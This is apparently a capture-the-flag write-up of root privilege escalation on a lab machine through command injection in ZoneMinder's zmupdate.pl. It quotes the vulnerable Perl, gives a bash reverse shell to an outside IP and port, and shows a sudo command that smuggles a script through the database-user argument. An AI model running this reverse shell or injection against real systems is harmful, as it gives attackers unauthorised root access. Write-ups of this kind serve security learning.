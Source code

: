 
doing sudo -l
![[Pasted image 20231218024658.png]]

okay after reading on htb forums there seems to be command injection in zmupdate.pl
the only relevant issue regarding this was here
https://github.com/ZoneMinder/zoneminder/issues/2951
## zmupdte.pl analysis
my best bet is the command injection lies in the following code snippet
```perl
--SNIPPED--
if ( $response =~ /^[yY]$/ ) {
      my ( $host, $portOrSocket ) = ( $Config{ZM_DB_HOST} =~ /^([^:]+)(?::(.+))?$/ );
      my $command = 'mysqldump';
      if ($super) {
        $command .= ' --defaults-file=/etc/mysql/debian.cnf';
      } elsif ($dbUser) {
        $command .= ' -u'.$dbUser; //COMMAND INJECTION
        $command .= ' -p\''.$dbPass.'\'' if $dbPass;
      }
--SNIPPED--
```
looking at the issue, they talked about interpreting password as a variable 
![[Pasted image 20231221022243.png]]
we try the same thing in `dbUser` by doing `'$(whoami)'` 

further down in `zmupdate.pl` it actually passes the `command` to the command line
```perl
--SNIPPED--
 print("Executing '$command'\n") if logDebugging();
      my $output = qx($command); //qx is function to execute system commands
      my $status = $? >> 8;
--SNIPPED--
```

## Command injection

create revshell in /dev./shm, zoneminder doesnt have write permission in /tmp idk why

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.31/9998 0>&1'
```
trigger the exploit

![[Pasted image 20231219023411.png]]
we get db already latest version, lets try giving it `version` argument 

```bash
sudo /usr/bin/zmupdate.pl -v=1 -u='$(/dev/shm/afsec.sh)' -p=ZoneMinderPassword2023
```

get the shell

![[Pasted image 20231219023336.png]]

and we get root!
